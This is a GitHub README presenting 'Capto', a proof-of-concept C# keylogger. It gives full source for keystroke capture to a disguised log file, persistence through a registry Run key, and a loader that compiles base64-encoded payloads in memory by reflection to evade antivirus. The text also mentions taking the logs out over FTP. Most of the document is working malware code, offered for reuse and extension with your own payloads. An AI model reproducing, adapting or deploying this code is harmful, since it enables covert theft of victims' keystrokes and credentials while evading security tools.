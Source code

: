# Capto
Capto is a basic POC of a keylogger written in C#. It compiles at runtime in-memory to avoid antivirus detection. It does this by using encoding and reflection. I initially developed this to show people what havoc a simple program could cause with a low privileged account whilst staying undetected by defense mechanisms. Somewhere along the way I lost the project and I always felt kinda sad about it. That version also included a payload where someone could use the Telegram API Bot as C2C (sending screenshots and basic commands to do some exfiltration and enumeration). I've now rewritten the program but just with the basics.

# Process
Upon executing it'll decode the base64 encoded payloads, compile them at runtime where it will then copy itself to a writable folder, add a registry entry for persistence and finally start the keylogger to log the keys that are entered. These are written to a update.log file and will be extracted using ftp.

# Payloads
It currently holds two basic payloads, one for adding a registry entry and the other is the actual keylogger. You can use the included WPF application: ```base64-encoder-decoder``` (or any other encoder) to add your own payloads.

> Note: The compiler expects the namespace and main class to be called ```Program```. It'll then try to invoke ```Main```.

Keylogger:
```cs
using System;
using System.IO;
using System.Runtime.InteropServices;

namespace Program
{    public class Program
    {
        [DllImport("user32.dll")]
        public static extern int GetAsyncKeyState(Int32 i);

        public static void Main(string arg)
        {
            string path = string.Format(@"{0}\{1}\{2}", Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Windows", "update.log");

            while (true)
            {
                for (int i = 0; i < 255; i++)
                {
                    int key = GetAsyncKeyState(i);
                    if (key == 1 || key == 32769)
                    {
                        StreamWriter file = new StreamWriter(path, true);
                        file.Write((char)i);
                        file.Close();
                        break;
                    }
                }
            }
        }
    }
}
```

Registry entry:
```cs
using Microsoft.Win32;
using System;

namespace Program
{
    public class Program
    {
        public static void Main(string arg)
        {
            RegistryKey key = Registry.CurrentUser.CreateSubKey(@"SOFTWARE\Microsoft\Windows\CurrentVersion\Run");
            key.SetValue("Windows", string.Format(@"{0}\{1}\{2}", Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Windows", "update.exe"));
            key.Close();
        }
    }
}
```
> Note: We use the local user path in the registry. That way we don't have to be local administrator to create the entry. Downside is that it'll only run as the current logged in user.
> Path: ```Computer\HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run```

# Reflection
This is the part that compiles and runs the payloads. Don't forget to add the necessary libraries for your payload as reference:
```cs
static void CompileAndRun(string payload)
        {
            CompilerParameters CompilerParams = new CompilerParameters
            {
                GenerateInMemory = true,
                TreatWarningsAsErrors = false,
                GenerateExecutable = false,
                CompilerOptions = "/optimize"
            };

            string[] references = { "System.dll", "mscorlib.dll" };
            CompilerParams.ReferencedAssemblies.AddRange(references);

            CSharpCodeProvider provider = new CSharpCodeProvider();
            CompilerResults compile = provider.CompileAssemblyFromSource(CompilerParams, payload);

            Module module = compile.CompiledAssembly.GetModules()[0];
            Type mt = null;
            MethodInfo methInfo = null;

            if (module != null)
                mt = module.GetType("Program.Program");
            if (mt != null)
                methInfo = mt.GetMethod("Main");
            if (methInfo != null)
                methInfo.Invoke(null, new object[] { "arg" });
        }
```
